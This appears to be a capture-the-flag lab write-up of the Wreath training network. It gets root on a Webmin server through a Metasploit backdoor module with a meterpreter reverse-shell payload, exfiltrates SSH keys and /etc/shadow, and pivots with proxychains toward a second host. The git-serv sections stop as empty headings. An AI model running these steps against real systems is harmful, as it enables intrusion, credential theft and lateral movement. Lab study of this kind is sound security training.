

# prod-serv : 10.200.185.200

## Initial Information
The target is publicly available and an IP address was provided.

Our goal is to compromise the exposed target and establish a base from which further penetration into the private network is possible.

## Enumeration
### NMAP Scans

```bash
nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN 10.200.185.200
```

revealed 4 open TCP ports:

| port | service | version
| --- | --- | --- |
| tcp:22 | SSH | OpenSSH 8.0 (protocol 2.0)
| tcp:80 | HTTP | Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c | 
| tcp:443 | HTTPS | Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c
| tcp:10000 | SSL/HTTP | MiniServ 1.890 (Webmin httpd) |

### port 22
* OpenSSH 8.0 (protocol 2.0)
* no further action

### port 80 / 443
* service version info suggests a Centos operating system
* both ports produce a failed redirect to thomaswreath.thm, indicating incorrectly configured DNS.
* adding this entry to the attacker `hosts` configuration file allows onward access to the underlying website:
```
10.200.185.200 thomaswreath.thm
```
* the pages contain personal information for Mr Thomas Wreath including: history of career and education, interests, personal contact information, a photo of the individual.

### port 10000
* webmin service is exposed and version reported is 1.89
* navigating to this location confirms the presence of a webmin login portal

  
* a search against exploit-db shows a vulnerability for webmin version <1.920<sup>[1]</sup> which allows unauthenticated remote code execution.

## Initial Exploitation
A metasploit module is available for the webmin vulnerability - use of which provides root access to the machine with the following configuration:

```
Module options (exploit/linux/http/webmin_backdoor):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:po
                                         rt[,type:host:port][...]
   RHOSTS     10.200.185.200   yes       The target host(s), see https://gith
                                         ub.com/rapid7/metasploit-framework/w
                                         iki/Using-Metasploit
   RPORT      10000            yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface
                                         to listen on. This must be an addres
                                         s on the local machine or 0.0.0.0 to
                                          listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing conne
                                         ctions
   SSLCert                     no        Path to a custom SSL certificate (de
                                         fault is randomly generated)
   TARGETURI  /                yes       Base path to Webmin
   URIPATH                     no        The URI to use for this exploit (def
                                         ault is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  xx.xx.xxx.xx     yes       The listen address (an interface may be
                                     specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Automatic (Linux Dropper)
```

### Evidence
```bash
[root@prod-serv ~]$ hostname; whoami; ip a
prod-serv
root
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:38:98:fb:ba:d7 brd ff:ff:ff:ff:ff:ff
    inet 10.200.185.200/24 brd 10.200.185.255 scope global dynamic noprefixroute eth0
       valid_lft 2735sec preferred_lft 2735sec
    inet6 fe80::38:98ff:fefb:bad7/64 scope link 
       valid_lft forever preferred_lft forever

```

## Establishing Persistence
Our scans had previously revealed that SSH access to the box was possible. Investigation of the `/root` directory revealed a `.ssh` folder containing keys which could be used for remote access.  This directory was exfiltrated for future connections.

The `/etc/shadow` file was exfiltrated for investigation.

## Further enumeration
Listing hosts in the **prod-serv** arp cache:
```bash
[root@prod-serv ~]$ arp -a
ip-10-200-188-1.eu-west-1.compute.internal (10.200.188.1) at 02:74:1d:9c:65:4f [ether] on eth0
ip-10-200-188-150.eu-west-1.compute.internal (10.200.188.150) at 02:cd:04:50:0e:2d [ether] on eth0

```
The hosts found are outside of the scope and not subject to further examination.

To discover hosts available from **prod-serv** we downloaded a static nmap binary to the machine and executed a ping scan across the ``` netmask 255.255.255.0 ``` subnet.

### nmap scan
```bash
./nmap -sn 10.200.188.0/24 -oN pingscan.output


Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2022-01-02 16:19 GMT
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-10-200-188-1.eu-west-1.compute.internal (10.200.188.1)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (-0.18s latency).
MAC Address: 02:74:1D:9C:65:4F (Unknown)
Nmap scan report for ip-10-200-188-100.eu-west-1.compute.internal (10.200.188.100)
Host is up (0.0011s latency).
MAC Address: 02:F0:B5:E2:B9:43 (Unknown)
Nmap scan report for ip-10-200-188-150.eu-west-1.compute.internal (10.200.188.150)
Host is up (0.00038s latency).
MAC Address: 02:CD:04:50:0E:2D (Unknown)
Nmap scan report for ip-10-200-188-250.eu-west-1.compute.internal (10.200.188.250)
Host is up (0.00059s latency).
MAC Address: 02:BE:E0:73:5E:69 (Unknown)
Nmap scan report for ip-10-200-188-200.eu-west-1.compute.internal (10.200.188.200)
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 4.83 seconds
```

This gave five total results - two excluding out of scope items and the ip address of **prod-serv**:
* 10.200.188.100
* 10.200.188.150

### Determining host accessibility
From the compromised **prod-serv** we probe the targets for exposed ports.
```bash
nmap -vv --reason -Pn -T4  10.200.188.100

nmap -vv --reason -Pn -T4  10.200.188.150
```
| host | result | action |
|---|---|---|
10.200.188.100 | no exposed ports | no further action
10.200.188.150 | 4 exposed ports | enumeration of target

# git-serv : 10.200.188.150

## Initial Information
The target is located in a private subnet, accessible from **prod-serv**, with immediate access to four exposed ports:

|PORT|SERVICE|VERSION|
|---|---|---|
|80/tcp   |http          |Apache httpd 2.2.22 ((Win32) mod_ssl/2.2.22 OpenSSL/0.9.8u mod_wsgi/3.3 Python/2.7.2 PHP/5.4.3)|
|3389/tcp |ms-wbt-server |Microsoft Terminal Services|
|5357/tcp |wsdapi        |Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)|
|5985/tcp |wsman         |Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)|

OS: Windows; CPE: cpe:/o:microsoft:windows

## Enumeration
To gather more in-depth information about the host, an SSH proxy was used in conjunction with ProxyChains to allow scans to be run from the attacking machine.

```bash
# ssh dynamic port formward
ssh -D 9000 -fN  root@10.200.188.200 -i ./root/id_rsa

# proxychains config
dynamic_chain
#proxy_dns - disabled
[ProxyList]
socks5  127.0.0.1 9000
```

```bash
proxychains -f ./proxychains4.conf nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess 10.200.188.150 -p 80,3389,5357,5985
```

### host

### port 80

### port 3389

### port 5357

### port 5985

---
##### [1] https://www.exploit-db.com/exploits/47230, accessed 2021-12-27 